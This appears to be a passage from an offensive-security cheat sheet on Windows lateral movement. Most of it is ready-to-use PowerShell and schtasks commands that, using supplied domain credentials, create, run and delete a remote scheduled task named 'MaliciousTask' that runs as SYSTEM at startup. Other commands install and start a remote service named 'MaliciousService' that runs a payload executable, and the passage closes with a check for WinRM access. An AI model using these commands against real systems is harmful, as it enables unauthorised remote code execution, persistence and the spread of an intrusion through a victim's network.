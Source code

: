```powershell
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NoProfile -File C:\path\to\script.ps1"
$trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -TaskName "MaliciousTask" -Action $action -Trigger $trigger -User "SYSTEM" -ComputerName <target_ip>
```

```powershell
schtasks /create /s <target_ip> /u <domain>\<user> /p <password> /tn "MaliciousTask" /tr "cmd.exe /c <command>" /sc once /st 00:00
```

#### Run a Scheduled Task Remotely
```powershell
schtasks /run /s <target_ip> /u <domain>\<user> /p <password> /tn "MaliciousTask"
```

#### Delete a Scheduled Task on Remote System
```powershell
Unregister-ScheduledTask -TaskName "MaliciousTask" -ComputerName <target_ip> -Confirm:$false
```

```powershell
schtasks /delete /s <target_ip> /u <domain>\<user> /p <password> /tn "MaliciousTask" /f
```

# Remote Service

Windows services can be used to execute commands or deploy payloads remotely.

#### Create a Service for Payload Execution
```powershell
New-Service -ComputerName <target_ip> -Credential <domain>\<user> -Name "MaliciousService" -BinaryPathName "C:\path\to\payload.exe" -DisplayName "MaliciousService" -StartupType Manual 
```

#### Start a Remote Service
```powershell
Start-Service -ComputerName <target_ip> -Credential <domain>\<user> -Name "MaliciousService" 
```

#### Stop a Remote Service
```powershell
Stop-Service -ComputerName <target_ip> -Credential <domain>\<user> -Name "MaliciousService" 
```

# Windows Remote Management (WinRM)

WinRM is enabled by default on Windows Servers, and if enabled on clients, it allows for remote command execution.

#### Test WinRM Access on Remote Host
```powershell
Test-WSMan -ComputerName <target_ip>
```
